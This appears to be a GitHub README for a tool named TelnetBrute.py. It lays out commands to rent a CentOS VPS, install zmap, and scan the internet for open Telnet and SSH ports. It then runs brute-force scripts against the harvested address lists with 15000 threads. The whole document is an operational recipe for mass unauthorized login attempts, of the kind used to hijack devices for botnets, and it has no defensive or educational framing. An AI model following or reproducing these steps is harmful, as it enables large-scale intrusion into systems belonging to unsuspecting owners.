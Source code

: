 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet Ips

1- zmap -p23 -o mfu.txt -N 25000   OR   zmap -p23 -o mfu.txt -w example.lst
1,5-- zmap -p22 -o mfussh.txt -w -N 25000 

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutrl.txt 15000 telnettest.txt OR python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



